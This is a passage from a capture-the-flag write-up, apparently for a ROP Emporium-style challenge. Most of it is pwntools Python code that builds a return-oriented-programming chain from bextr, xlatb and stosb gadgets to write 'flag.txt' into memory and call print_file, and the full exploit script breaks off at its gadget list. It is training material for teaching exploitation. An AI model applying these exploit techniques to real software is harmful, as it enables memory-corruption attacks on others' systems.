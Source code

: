 ``` sh
    load_al(letter_addr, al)
    write_al_to_addr(target)
    target++
```

The first way use `8*12` words (0x300)
The second way use `8*8` words (0x200) yes !

See it in the python script bellow.

``` python
# Build a ropchain to set
# al =  (byte) addr[al]
def load_al_from_addr(addr, al):
    r=p64(g_bextr)
    r+=p64(64<<8)
    r+=p64(addr-0x3ef2-al)
    r+=p64(g_xlatb)
    return r

# Build a ropchain to write al in [addr]
def write_al_to_addr(addr):
    r=p64(g_pop_rdi)
    r+=p64(addr)
    r+=p64(g_stosb)
    return r
```

And then we can loop for each character and call these functions to build the complete ropchain.

``` python
# List of addresses containing f,l,a,g,.,t,x,t
flag_txt = [0x4003c4, 0x4003c5, 0x4005d2, 0x4003cf, 0x400436,  0x4006cb, 0x4006c8, 0x4006cb]
# List of the successives values of al: 0xb,0x66,0x6c ...
lst_al = b"\x0bflag.txt"

PL =b"A"*offset
for i, letter_addr in enumerate(flag_txt):
    PL += load_al_from_addr(letter_addr,lst_al[i])
    PL += write_al_to_addr(bss+i)
```

After that, to finalize:

``` python
PL+=p64(g_pop_rdi)
PL+=p64(bss)
PL+=p64(print_file)
```

## Python script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# break apres le read dans pwnme
gs='''
b *pwnme+150
c
'''

# Gadgets
# xlatb; ret
```